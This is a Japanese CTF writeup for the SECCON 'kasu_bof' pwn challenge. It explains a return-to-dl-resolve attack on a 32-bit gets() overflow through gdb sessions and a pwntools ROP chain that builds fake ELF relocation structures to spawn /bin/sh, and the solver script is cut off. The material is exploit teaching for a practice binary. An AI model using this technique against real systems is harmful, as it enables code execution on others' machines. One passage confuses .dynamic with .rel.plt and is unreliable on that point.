 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2023-02-28T10:51:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "siva (https://twitter.com/mc4nf)"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~


**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
実行ファイルに ~file~ コマンドと ~checksec~ を用いると、以下の特徴があることがわかる。
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ バイト 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから、配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる。


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため、
スタックバッファオーバフローを利用して、 ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである。


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスを解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。
   
   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~system("/bin/sh")~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ は、引数の ~reloc_arg~ を元に ~Elf32_Rel~ 構造体を特定するため、 ~reloc_arg~ を1.で用意した ~Elf32_Rel~ 構造体のオブジェクトを指すように指定
   3. ~.plt~ の先頭にジャンプすると、 ~_dl_runtime_resolve~  が呼ばれ、1.で用意した構造体のオブジェクトを元に ~system~ のアドレスが解決され、 ~system("/bin/sh")~ が実行

   そこで、以下では、 ~.plt~ セクションからのアドレス解決の流れを説明し、どのようにして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~gets~ が呼び出される全体の流れ
    問題のプログラムをディスアセンブルし、どのようにして ~gets~ が呼び出されているのか確認してみる。
    #+begin_src
08049180 <main>:
 8049180:       55                      push   ebp
 8049181:       89 e5                   mov    ebp,esp
 8049183:       81 ec 98 00 00 00       sub    esp,0x98
 8049189:       8d 85 7c ff ff ff       lea    eax,[ebp-0x84]
 804918f:       c7 45 fc 00 00 00 00    mov    DWORD PTR [ebp-0x4],0x0
 8049196:       89 04 24                mov    DWORD PTR [esp],eax
 8049199:       e8 a2 fe ff ff          call   8049040 <gets@plt>
 804919e:       31 c9                   xor    ecx,ecx
 80491a0:       89 85 78 ff ff ff       mov    DWORD PTR [ebp-0x88],eax
 80491a6:       89 c8                   mov    eax,ecx
 80491a8:       81 c4 98 00 00 00       add    esp,0x98
 80491ae:       5d                      pop    ebp
 80491af:       c3                      ret    
    #+end_src
    ディスアセンブルした ~main~ を見てみると、 ~0x8049199~ のアドレスにおいて、 ~gets@plt~ である ~0x8049040~ にジャンプしている。
    ~gets@plt~ は、 ~.plt~ セクションに存在するため、 ~.plt~ セクションもディスアセンブルしてみる。
    
    #+begin_src
08049040 <gets@plt>:
 8049040:       ff 25 0c c0 04 08       jmp    DWORD PTR ds:0x804c00c
 8049046:       ...
    #+end_src
    先程呼ばれた ~gets@plt~ を確認してみると、 まず ~jmp    DWORD PTR ds:0x804c00c~ で ~0x804c00c~ 番地に格納されたアドレスへジャンプしている。
    この ~0x804c00c~ のアドレスは、GOTと呼ばれる領域にあり、最終的に解決された ~gets~ のアドレスが格納される。
    
    そこで、1回目の ~gets@plt~ の呼び出し時に、GOTには何が格納されているのか確認してみる。
    #+begin_src
gef➤  hexdump  dword 0x804c00c
0x0804c00c│+0x0000   <gets@got.plt+0000> 0x08049046   
0x0804c010│+0x0004   ...
    #+end_src
    
    すると、 ~0x804c00c~ には、次の命令のアドレス ( ~0x8049046~ )がGOTに格納されていることがわかる。
    このため、引き続き ~0x8049046~ からの命令読んでいく。
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
    #+end_src        
    次の命令 ~push   0x0~ では、スタックに ~0x0~ を積み、その後 ~jmp    8049030 <.plt>~ で ~.plt~ セクションの先頭にジャンプしている。
    
    ~.plt~ の先頭の命令は、 ~push   DWORD PTR ds:0x804c004~ となっており、 ~0x804c004~ に格納されている値をスタックに積む。
    そして、次の命令 ~jmp    DWORD PTR ds:0x804c008~ で ~0x804c008~ に格納されているアドレスへジャンプする。

    ここで、 ~0x804c004~ および ~0x804c008~ 番地には何が格納されているのか調べてみる。
    #+begin_src
gef➤  hexdump dword 0x804c004
0x0804c004│+0x0000   <_GLOBAL_OFFSET_TABLE_+0004> 0xf7ffd990   
0x0804c008│+0x0004   <_GLOBAL_OFFSET_TABLE_+0008> 0xf7fe7ac0   
    #+end_src
    すると、これらのアドレスはGOT先頭付近のアドレスであり、それぞれ ~0xf7ffd990~ と ~0xf7fe7ac0~ の値が格納されていることがわかる。

    まとめると、 ~.plt~ の先頭の命令では、スタックに ~0xf7ffd990~ を積み、 ~0xf7fe7ac0~ 番地へジャンプしている。
    そして、 ~0xf7fe7ac0~ へジャンプ後、 ~gets~ のアドレスが解決され、 ~gets~ が実行される。
    また、二回目以降の呼び出しのために、解決されたアドレスは、GOTへ格納される。

    以上が ~main~ から ~gets~ が実行されるまでの流れであり、 ~return to dl resolve~ をするために必要となる ~.plt~ セクション以降の流れについて以降では詳しく見ていく。
    
*** ~.plt~ セクションからアドレス解決の流れ
    さて、 ~main~ から ~gets~ が呼び出される全体像が掴めたところで、最後にジャンプしたアドレス ~0xf7fe7ac0~ から先を追ってみる。
    
    ジャンプ先の ~0xf7fe7ac0~ は ~_dl_runtime_resolve~ となっており、この関数により ~gets~ のアドレスが解決される。
     ~_dl_runtime_resolve~ は引数として ~link_map~ 構造体と、後述する ~Elf32_Rel~ 構造体へのオフセットを示す ~reloc_arg~ という2つの値を取る。

    そこで、ここから先では、 ~_dl_runtime_resolve~ を呼び出す際にスタックに積まれた ~0xf7ffd990~ を ~_dl_runtime_resolve~ の第一引数である ~link_map~ 構造体のアドレス、 ~0x0~ を第二引数である ~reloc_arg~ として扱う。

#   それでは、次に引数として渡された ~link_map~ 構造体がどのような役割を担っているのかを調査する。
   それでは、次にライブラリ関数のシンボルの解決をする際に必要な情報を含んでいるそれぞれのセクションについて調べていく。    
    # ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。
    
    # そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


#     参考
#     #+begin_example    
#         .rel.plt                         .dynsym                                           .dynstr                                    
#             |                                |                                                 |
#             |                                |                                                 |
# reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
#             |                                |                                                 |
#             +-->|-----------+----------|     |                                                 |
#                 | Elf32_Rel | r_offset |     |                                                 |
#                 |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
#                 |-----------+----------|     |                                                 |
#                                              |                                                 |
#                                              +->|-----------+---------------------------|      |
#                                                 | Elf32_Sym | st_name                   |------+   st_name + .dynstr
#                                                 |           | st_value                  |      |
#                                                 |           | st_size                   |      |
#                                                 |           | st_info st_other st_shndx |      |
#                                                 |-----------+---------------------------|      |
#                                                                                                |
#                                                                                                +-->|-----------+----------|
#                                                                                                    | symbol    |  'gets'  |
#                                                                                                    |-----------+----------|
#     #+end_example

**** ~.dynamic~ セクション
  ~.dynamic~ セクションは、 ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ セクションなどのアドレス情報を保持しているセクションである。
  
  このため、ライブラリ関数のシンボルを解決をする際は、 ~.dynamic~ セクションを最初に参照し、シンボル解決に必要な情報を含むセクションが配置されているアドレスを取得する。
  
  ~.dynamic~ セクションは、 ~Elf32_Dyn~ 構造体のオブジェクトが連続して配置されている。

  そこで、 ~Elf32_Dyn~ 構造体の定義をgdbで参照してみる。

  gdbから、構造体の定義を得るために、libcにおけるデバッグ情報を取得しておく。
   #+begin_src
$ sudo apt install libc6-dbg libc6-dbg:i386
   #+end_src

   #+begin_src
gef➤  break main
gef➤  run
gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;
gef➤  ptype /o Elf32_Dyn
type = struct {
/*    0      |     4 */    Elf32_Sword d_tag;
/*    4      |     4 */    union {
/*                 4 */        Elf32_Word d_val;
/*                 4 */        Elf32_Addr d_ptr;

                               /* total size (bytes):    4 */
                           } d_un;

                           /* total size (bytes):    8 */
                         }
    #+end_src
  - ソースコードにおける定義
    - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	# #+begin_src c
	#   typedef struct
	#   {
	#     Elf32_Sword d_tag;			/* Dynamic entry type */
	#     union
	#       {
	# 	Elf32_Word d_val;			/* Integer value */
	# 	Elf32_Addr d_ptr;			/* Address value */
	#       } d_un;
	#   } Elf32_Dyn;
	# #+end_src


  ~Elf32_Dyn~ 構造体は、 それぞれの構造体がどのセクションの何の情報を持つのかを表す識別子である ~d_tag~ と、 ~d_tag~ に対応した値を ~union~ 型として持つ。

  ここで、 ~.dynamic~ セクションを参照するため、このセクションそのもののアドレスを得るためには、 ~link_map~ 構造体の ~l_info~ フィールドを参照する必要がある。
  各セクションの情報が格納されている ~l_info~ において、インデックスは、対応した ~d_tag~ により参照される。
    - d_tagに代入されうる値の一覧
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
          #+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	  #+end_src

  そこで、次に ~link_map~ 構造体の構造と、 ~.dynamic~ セクションそのもののアドレスを解決する流れを見ていく。 
 	
    # また、このとき ~.dynamic~ セクションは、 ~d_tag~ の順番に並んでいる訳ではないことに注意。
    # - 以下の例では、 ~DT_STRTAB, DT_SYMTAB~ は8、9番目のエントリ、 ~DT_JMPREL, DT_REL~ は16、17番目のエントリに配置
    #   #+begin_src 
    #   0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
    #   0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
    #   ...
    #   0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
    #   0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
    #   0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
    #   0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
    #   ...
    #   0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
    #   0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
    #   0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
    #   0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
    #   ...
    #   #+end_src

***** ~link_map~ 構造体
   ~link_map~ 構造体は、ELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス、再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。

   
   それでは、 ~link_map~ 構造体の構造を知るために、gdbを用いて定義を参照してみる。
   #+begin_src
gef➤  info types link_map
All types matching regular expression "link_map":

File ../elf/link.h:
84:	struct link_map_public;

File ../include/link.h:
91:	struct link_map;
271:	struct link_map_reldeps;

File ../sysdeps/x86/linkmap.h:
10:	struct link_map_machine;
gef➤  ptype /o struct link_map
/* offset    |  size */  type = struct link_map {
/*    0      |     4 */    Elf32_Addr l_addr;
/*    4      |     4 */    char *l_name;
/*    8      |     4 */    Elf32_Dyn *l_ld;
/*   12      |     4 */    struct link_map *l_next;
/*   16      |     4 */    struct link_map *l_prev;
/*   20      |     4 */    struct link_map *l_real;
/*   24      |     4 */    Lmid_t l_ns;
/*   28      |     4 */    struct libname_list *l_libname;
/*   32      |   308 */    Elf32_Dyn *l_info[77];
/*  340      |     4 */    const Elf32_Phdr *l_phdr;
...
   #+end_src
   - ソースコードの定義はここ
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
     # #+begin_src c
     #   struct link_map
     #   {
     # 	 /* These first few members are part of the protocol with the debugger.
     # 	    This is the same format used in SVR4.  */

     # 	 ElfW(Addr) l_addr;		/* Difference between the address in the ELF
     # 					  file and the addresses in memory.  */
     # 	 char *l_name;		/* Absolute file name object was found in.  */
     # 	 ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
     # 	 struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
     # 	 ...

     # 	 ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
     # 		  + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
     # 	 ...
     #   }
     # #+end_src
     # - ソースコード中の ~ElfW(hoge)~ のマクロは、 ~Elf32_hoge~ と展開される。
     #   - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/link.h#L28

     *return to dl resolve* において、 ~link_map~ 構造体で ~offset~ が32の位置に保持されている ~l_info~ フィールドを利用する。
      ~l_info~ は、各セクションへのアドレスを保持している。

     # 各セクションの情報が格納されている ~l_info~ において、インデックスは、対応した ~d_tag~ により参照される。
     #  - d_tagに代入されうる値の一覧
     #    - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
     #      #+begin_src c
     # 	  /* Legal values for d_tag (dynamic entry type).  */
     # 	  ...
     # 	  #define DT_STRTAB	5		/* Address of string table */
     # 	  #define DT_SYMTAB	6		/* Address of symbol table */
     # 	  ...
     # 	  #define DT_REL	17		/* Address of Rel relocs */
     # 	  ...
     # 	  #define DT_JMPREL	23		/* Address of PLT relocs */
     # 	  ...
     # 	  #+end_src
     # 	  
     例えば、 ~.dynamic~ セクションのアドレスを参照したい場合、 ~d_tag~ が ~DT_JMPREL~ の ~Elf32_Dyn~ 構造体を参照すればよいため、 ~l_info[23]~ とすることで参照することができる。
   
   ここで、実際にgdbを用いて ~link_map~ 構造体から ~.dynamic~ セクションのアドレスを解決してみる。

   ~_dl_runtime_resolve~ の第一引数である ~0xf7ffd990~ は ~link_map~ 構造体のアドレスであるため、 ~0xf7ffd990~ を ~link_map~ 構造体のアドレスとし、表示する。
   #+begin_src 
gef➤  set $link_map = (struct link_map*) 0xf7ffd990
gef➤  print *$link_map.l_info[23]
$5 = {
  d_tag = 0x17,
  d_un = {
    d_val = 0x80482d8,
    d_ptr = 0x80482d8
  }
}
   #+end_src

   すると ~link_map~ 構造体のそれぞれのメンバの値が確認できる。
   例えば、 ~dynamic~ セクションのアドレス情報は、 ~l_info[23]~ を参照することにより得ることができる。
   このため、これを表示してみると、 ~d_ptr~ には ~0x80482d8~ が格納されており、 ~.dynamic~ セクションのアドレスは ~0x80482d8~ だということがわかる。

   それでは、次にライブラリ関数のシンボルの解決に必要な他のセクションの情報を参照していく。

**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは、解決したアドレスを格納するGOTのアドレスとシンボルの情報を得るために必要な情報を持つ。

  ~rel.plt~ セクションは、 ~Elf32_Rel~ 構造体の配列となっており、 ~Elf32_Rel~ 構造体の定義は以下のようになっている。
  #+begin_src
gef➤  info types Elf32_Rel
All types matching regular expression "Elf32_Rel":

File ../elf/elf.h:
638:    typedef struct {...} Elf32_Rel;
658:    typedef struct {...} Elf32_Rela;
gef➤  ptype /o Elf32_Rel
type = struct {
/*    0      |     4 */    Elf32_Addr r_offset;
/*    4      |     4 */    Elf32_Word r_info;

                           /* total size (bytes):    8 */
                         }
  #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
      # 	#+begin_src c
      # 	  typedef struct
      # 	  {
      # 	    Elf32_Addr	r_offset;		/* Address */
      # 	    Elf32_Word	r_info;			/* Relocation type and symbol index */
      # 	  } Elf32_Rel;				
      # #+end_src
      
     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
     ここで、 ~_dl_runtime_resolve~ の第二引数である ~reloc_arg~ は、 ~.rel.plt~ セクションの先頭アドレスから、参照する ~Elf32_Rel~ 構造体までのオフセットとなっている。
    #+begin_src
gef➤  set $reloc_arg = 0x0
gef➤  set $reloc = (Elf32_Rel *)($link_map.l_info[23].d_un.d_ptr + $reloc_arg)
gef➤  print *reloc
$11 = {
  r_offset = 0x804c00c,
  r_info = 0x107
}
    #+end_src

    ここで、 ~r_offset~ はライブラリ関数のアドレスを解決後に、そのアドレスを格納するGOT領域のエントリとなる。
    このため、 ~gets~ のアドレスが解決されると、 ~0x804c00c~ にそのアドレスが格納されることになる。
	 
    ~r_info~ は、その下位8bitと残りの上位24bitそれぞれに、次のような値を保持する。
    ~r_info~ を 8 byte 右シフトすることにより、 ~.dynsym~ のインデックスを取得することができる。
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは、アドレス解決する関数のシンボルのサイズやオフセットなどの情報を持つ。

    また、 ~.dynsym~ セクションは、 ~Elf32_Sym~ 構造体の配列となっている。

     ~Elf32_Sym~ 構造体をgdbで参照してみる。
     #+begin_src
gef➤  info types Elf32_Sym
All types matching regular expression "Elf32_Sym":

File ../elf/elf.h:
527:    typedef struct {...} Elf32_Sym;
gef➤  ptype /o Elf32_Sym
type = struct {
/*    0      |     4 */    Elf32_Word st_name;
/*    4      |     4 */    Elf32_Addr st_value;
/*    8      |     4 */    Elf32_Word st_size;
/*   12      |     1 */    unsigned char st_info;
/*   13      |     1 */    unsigned char st_other;
/*   14      |     2 */    Elf32_Section st_shndx;

                           /* total size (bytes):   16 */
                         }
    #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  # #+begin_src c
	  #   typedef struct
	  #   {
	  #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	  #     Elf32_Addr	st_value;		/* Symbol value */
	  #     Elf32_Word	st_size;		/* Symbol size */
	  #     unsigned char st_info;		/* Symbol type and binding */
	  #     unsigned char st_other;		/* Symbol visibility */
	  #     Elf32_Section st_shndx;		/* Section index */
	  #   } Elf32_Sym;
          # #+end_src

     ここで、 ~st_name~ は、実際にシンボルが置かれている ~.dynstr~ セクションのオフセットを指している。
    そこで、 ~r_info~ からインデックスを計算し、実際に ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
gef➤  set $symtab = (Elf32_Sym *)($link_map.l_info[6].d_un.d_ptr)
gef➤  set $sym = $symtab[$reloc.r_info>>8]
gef➤  print $sym
$13 = {
  st_name = 0x1a,
  st_value = 0x0,
  st_size = 0x0,
  st_info = 0x12,
  st_other = 0x0,
  st_shndx = 0x0
}
    #+end_src
    
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが、シンボルを指すアドレスとなっている。
    # - 以下の例では、 ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し、その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
gef➤  set $strtab = (char *)($link_map.l_info[5].d_un.d_ptr)
gef➤  set $gets_symbol = $strtab + $sym.st_name
gef➤  print $gets_symbol
$15 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+--------|
                                                                                                   | symbol    | 'gets' |
                                                                                                   |-----------+--------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = fake_elf32_rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下3bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常はGOTの対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((fake_elf32_sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から文字列 ~"system\x00"~ のアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、グローバル関数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には、以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、 ~"system"~ のシンボル、および ~"/bin/sh"~ の文字列を格納する。    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4 byte  |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 |  4byte  |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき、 ~Elf32_Sym~ 構造体は、 ~.dynsym~ セクションのアドレスから、 ~0x10~ バイトの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)、
    必要なバイト数だけalignしている。

    Solverを書くときは、事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき、ROPで ~gets~ の引数として指定しておき、ROPチェインが発火後に、それぞれの構造体やシンボルを書き込んでいく。
    #+begin_src python
      fake_elf32_rel_addr = bss

      fake_elf32_sym_addr = fake_elf32_rel_addr + 0x10

      system_symbol_addr = fake_elf32_sym_addr + 0x14

      sh_string_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考文献に挙げたセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)          # saved_ebp

      # gets(fake_elf32_rel_addr)
      buf += p32(gets_plt)            # main return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(fake_elf32_rel_addr) # gets arg

      # gets(fake_elf32_sym_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(fake_elf32_sym_addr) # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(system_symbol_addr)  # gets arg

      # gets(sh_string_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(sh_string_addr)      # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~"/bin/sh"~ を取れるように、 ~"/bin/sh"~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                 # pop ret return addr
      buf += p32(reloc_arg)           # reloc arg
      buf += p32(0xdeadbeef)          # system return addr
      buf += p32(sh_string_addr)      # system arg
     #+end_src

*** Solver    
    # https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof
    #+begin_src python
from pwn import *

filename = './chall'
chall = ELF(filename)

# docker-compose up
# conn = remote('localhost', 9001)
conn = process(filename)

plt = chall.get_section_by_name('.plt').header.sh_addr
bss = chall.get_section_by_name('.bss').header.sh_addr
rel = chall.get_section_by_name('.rel.plt').header.sh_addr
dynsym = chall.get_section_by_name('.dynsym').header.sh_addr
